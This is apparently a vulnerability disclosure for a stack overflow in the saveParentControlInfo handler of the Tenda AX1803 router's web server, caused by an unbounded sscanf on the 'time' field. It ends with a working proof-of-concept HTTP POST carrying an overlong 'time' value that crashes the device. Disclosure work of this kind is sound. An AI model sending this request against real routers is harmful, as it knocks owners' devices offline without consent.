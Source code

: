 Affect device: Tenda-AX1803 US_AX1803v2.0br_v1.0.0.1_2994_CN_ZGYD01_4(https://www.tenda.com.cn/download/detail-3421.html)

Vulnerability Type: Stack overflow

Impact:  Denial of Service(DoS)

# Vulnerability description

This vulnerability lies in the `/goform/saveParentControlInfo` page which influences the lastest version of Tenda-AX1803 US_AX1803v2.0br_v1.0.0.1_2994_CN_ZGYD01_4 (https://www.tenda.com.cn/download/detail-3421.html)

The vulnerability exists in the file `/bin/tdhttpd` , function **saveParentControlInfo**.

![1](img/3-1.png)

First, the saveParentControlInfo function will call sub_87694.

![2](img/3-2.png)

In the `sub_87694` function, the v3 variable holds the value of time, which is then assigned to V5 and v6 by the `_isoc99_sscanf` function. Because `_isoc99_sscanf` has no input length limit, it causes a stack overflow vulnerability.

# POC and repetition

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```python
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.23.133
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: password=byn5gk
Connection: close
Content-Length: 200

time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

```

By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![3](img/3-3.png)

